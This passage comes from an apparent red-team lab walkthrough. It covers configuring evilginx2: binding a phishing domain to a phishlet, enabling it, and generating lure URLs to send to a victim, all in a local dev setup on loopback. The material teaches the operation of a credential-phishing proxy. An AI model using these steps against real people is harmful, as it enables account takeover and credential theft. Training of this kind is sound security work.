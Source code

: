     This sets our phishing domain to `sec565.phish` as that's what we put in our hosts file. 
    In a real operation you'd obviously need to specify an actual domain that you own. 

    Since we are running in dev mode, the domain verification check is not being enforced, hence why we set our IPV4 to loopback. 


    ![](media/evilginx2.png)


24. Now that we have set the phishing domain and server IP, we can tie our phishing domain to our phishlet. We do this using the following command

    ```bash
    phishlets hostname sec565rocks sec565.phish
    ```

25. Once we have tied our phishing domain to our phishlet, we can enable the phishlet. 

    ```bash
    phishlets enable sec565rocks
    ```

26. Now that we have enabled our phishlet, we can generate lures for our phishlet. A lure is going to be the link we actually send to our victim. 


    ```bash
    lures create sec565rocks
    ```

    Once we have a lure created we can get the lure URL using 

    ```bash
    lures get-url <lure ID> 
    ```

    for example

    ```bash
    lures get-url 0
    ```

